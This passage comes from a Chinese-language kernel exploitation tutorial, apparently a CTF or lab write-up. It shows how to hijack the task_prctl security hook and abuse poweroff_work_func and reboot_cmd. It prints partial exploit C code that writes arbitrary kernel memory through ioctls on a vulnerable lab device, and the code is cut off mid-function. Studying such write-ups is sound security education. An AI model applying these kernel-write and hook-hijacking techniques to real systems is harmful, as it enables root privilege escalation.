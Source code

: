 我们在`security_task_prctl`函数处下断，然后逐步跟进，直到遇到调用`hp-&gt;hook.task_prctl`处。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-04-29-154306.png)

因此我们需要劫持的目标就是`0xFFFFFFFF81EB56B8`。

#### 篡改`reboot_cmd`并调用`__orderly_reboot`

首先查看确定`poweroff_cmd`和`__orderly_poweroff`的地址，结果发现内核中并没有该函数的地址，但是发现定义在`/v4.6-rc1/source/kernel/reboot.c#L450`的`poweroff_work_func`会调用`__orderly_poweroff`，且接受的参数并没有被利用：

```
static void poweroff_work_func(struct work_struct *work)
`{`
    __orderly_poweroff(poweroff_force);
`}`
```

那么我们转而试图去确定`poweroff_work_func`函数的地址。

[![](https://img.lhyerror404.cn/error404/2020-04-30-153505.png)](https://img.lhyerror404.cn/error404/2020-04-30-153505.png)

接下来我们开始调试，分别在`call_usermodehelper`和`poweroff_work_func`处下断

我们事先编译一个`rootme`程序：

```
// gcc ./rootme.c -o rootme -static -fno-stack-protector

#include&lt;stdlib.h&gt;

int main()`{`
    system("touch /tmp/test");
    return 0;
`}`
```

我们使用的`Exploit`如下：

```
// gcc ./exploit.c -o exploit -static -fno-stack-protector -masm=intel -lpthread

int write_mem(int fd, size_t addr,char *buff,int count)
`{`
    struct seek_args s_args1;
    struct write_args w_args;
    int ret;

    s_args1.new_pos=addr-0x10;
    ret=ioctl(fd,0x8008FE0A,&amp;s_args1);
    w_args.buff=buff;
    w_args.count=count;
    ret=ioctl(fd,0x8008FE0B,&amp;w_args);
    return ret;
`}`

void exploit()`{`

    int fd = open("/dev/vulnerable_device",0);
    if (fd &lt; 0)`{`
        puts("open fail!");
        return 0;
    `}`

    struct init_args i_args;
    struct realloc_args r_args;
    i_args.size=0x100;
```
